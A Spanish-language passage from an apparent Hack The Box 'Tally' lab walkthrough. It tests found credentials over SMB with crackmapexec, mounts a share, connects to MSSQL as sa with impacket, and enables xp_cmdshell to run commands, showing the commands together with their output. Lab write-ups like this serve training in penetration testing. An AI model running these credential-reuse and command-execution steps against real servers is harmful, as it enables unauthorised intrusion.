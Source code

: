 ![imagen5](/assets/images/tally/tally5.png)

Dentro nos encontramos unas credenciales que son válidas por smb.

```shell
crackmapexec smb 10.10.10.59 -u finance -p Acc0unting
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)
SMB         10.10.10.59     445    TALLY            [+] TALLY\finance:Acc0unting 
```
Nos montamos las carpetas con mnt

```shell
sudo mount -t cifs //10.10.10.59/ACCT /mnt/smbmount -o username=finance,password=Acc0unting,rw
```
Dentro nos encontramos unas credenciales de sql, por lo que procedemos a conectarnos.

```shell
sudo mssqlclient.py sa@10.10.10.59
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(TALLY): Line 1: Changed database context to 'master'.
[*] INFO(TALLY): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 665) 
[!] Press help for extra shell commands
SQL> 
```
Dentro nos encotramos que podemos habilitar el xp_cmdshell para ejecutar comandos.

```shell
SQL> sp_configure "show advanced options",1
[*] INFO(TALLY): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> sp_configure "xp_cmdshell",1
[*] INFO(TALLY): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

tally\sarah                                                                        

```